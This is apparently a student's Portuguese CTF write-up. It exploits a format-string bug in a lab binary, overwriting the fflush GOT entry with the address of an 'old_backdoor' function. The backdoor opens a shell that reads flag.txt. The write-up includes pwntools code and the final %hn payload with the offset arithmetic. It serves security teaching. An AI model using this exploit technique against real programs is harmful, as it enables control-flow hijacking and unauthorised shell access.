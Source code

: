 # Final Format - CTF Extra

Inicialmente exploramos o ficheiro disponibilizado na plataforma CTF que é o mesmo que está a ser executado no servidor na porta 4007. Com o comando **checksec** verificamos que `program` não tem o binário randomizado mas existem proteções do endereço de retorno usando canários:

![Checksec](../img/finalformat1.png)

Como só tínhamos acesso ao binário, utilizamos os comandos seguintes para exibir os *exported symbols* e fazer o *disassembly*:

```bash
$ objdump -t program    # show exported symbols
$ objdump -D -S program # show disassembly
```

Isto permitiu ver também o nome das funções implementadas no ficheiro. Destacaram-se de imediato a função `main` e a função `old_backdoor`:

![Old_backdoor](../img/finalformat2.png)

A dica disponibilizada, "Removemos a nossa special feature, já não há flags para ninguém", indica que este CTF tem conexão com o CTF 2 da semana 7. Nesse existia uma backdoor que podia aberta manipulando o valor de uma variável, a "special feature", e com isso ganhar acesso à shell do servidor. Aqui essa chave já não existe mas há uma chamada ao sistema do género no funcionamento interno da função:

![Funcionamento de old_backdoor](../img/finalformat3.png)

Como a flag (flag.txt) está no *workdirectory* é de interesse que a main chame esta *backdoor*. Notamos que main invoca `flush()` antes e depois de `scanf()`. Scanf quando incorretamente utilizado permite a cópia de indefinidos bytes do stdin para o buffer local. Com um ataque do género **format string** podemos usurpar a segunda chamada de `flush()` através do input.

![Funcionamento de main](../img/finalformat4.png)

O endereço de old_backdoor é constante (0x08049236) pois não há randomização de endereços. Por outro lado, fflush é uma função da CLIB e por isso há *linking* dinâmico com o programa. Uma tabela GOT (*Global Offset Table*), disponível usando o comando `objdump -R` e cujo o funcionamento foi estudado por [aqui](https://maskray.me/blog/2021-08-29-all-about-global-offset-table) guarda os endereços de todas as funções usadas. A de fflush é 0x0804c010:

![Global Offset Table](../img/finalformat5.png)

O objetivo do ataque é agora escrever o valor 0x08049236 na zona de memória apontada pela GOT na entrada da fflush 0x0804c010. Assim, a função main ao invocar pela segunda vez fflush() irá chamar old_backdoor() em vez da tradicional função da CLIB.

Primeiro avaliamos o estado da stack de forma a concluir o offset inicial necessário antes de cada endereço. Para isso usamos caracteres de formato hexadecimal conhecidos:

```python
ctf_server = remote('ctf-fsi.fe.up.pt', 4007)
ctf_server.recvuntil(b'...')
ctf_server.sendline(b'AAAA%X%X%X%XBBBB%X%X%X%X')
ctf_server.interactive()
```

A format string resultou no seguinte conjunto de caracteres, cujos grupos foram separados para uma melhor visualização. Tal como observado, para os argumentos capturarem o conteúdo apontado pela string de formatação são necessários apenas 4 bytes, ou seja, 4 quaisquer caracteres antes do endereço:

```note
AAAA 41 41 41 41 5825 5825 5825 5825 42 42 42 42 BBBB 5825 5825 5825 5825
```

A escrita de 0x08049236 no endereço completo não pode ser feita numa só operação devido a dois fatores:
- `%n` ou até mesmo `%hn` só escreve nos 2 bytes menos significativos do endereço apontado;
- escrever 134517302 bytes (0x08049236) no input é demasiado demorado para o período de *timeout* imposto pelo servidor CTF;

É, portanto, necessário realizar duas escritas: uma com a parte mais significativa e outra com a parte menos significativa:

> hex(0x08049236) -> int(134517302) <br>
> 0x08049236 -> 0x0804 e 0x9236 <br>
> hex(0x0804) -> int(2052) <br>
> hex(0x9236) -> int(37430) <br>

Note-se que a parte menos significativa do valor a escrever é maior do que a parte menos significativa, pelo que é necessário escrever 2052 bytes primeiro. Este valor tem de ser escrito na parte mais significativa do endereço apontado por 0x0804c010, ou seja, em 0x0804c010 + 2 = 0x0804c012. Fazendo as transformações de string necessárias:

> 0x0804c010 -> \x10\xc0\x04\x08 <br>
> 0x0804c012 -> \x12\xc0\x04\x08 <br>

Chegamos a uma format string capaz de levar a cabo o ataque. A notação `%.Nx` permite escrever o valor lido de memória com N algarismos significativos, o que é importante para não ocorrer buffer overflow:

```python
ctf_server.sendline(b'FFFF\x12\xc0\x04\x08FFFF\x10\xc0\x04\x08%.Ax%hn%.Bx%hn')
```

Só falta calcular o valor de A (que escreve na parte mais significativa do endereço) e de B (que escreve na parte menos significativa do endereço). Antes de A escrevemos 8 caracteres e 2 endereços de 4 bytes cada, ou seja, 16 bytes no total. Assim o valor de A é 2052 - 16 = 2036 bytes. Antes de B escrevemos no total 2052 bytes logo faltam 37430 - 2052 = 35378 bytes. A format string final ficou:

```python
ctf_server.sendline(b'FFFF\x12\xc0\x04\x08FFFF\x10\xc0\x04\x08%.2036x%hn%.35378x%hn')
```

Tal como esperado, ao executar o script conseguimos que main invocasse old_backdoor e assim abrir uma shell no servidor para espreitar o conteúdo do ficheiro `flag.txt`:

![Flag](../img/finalformat6.png)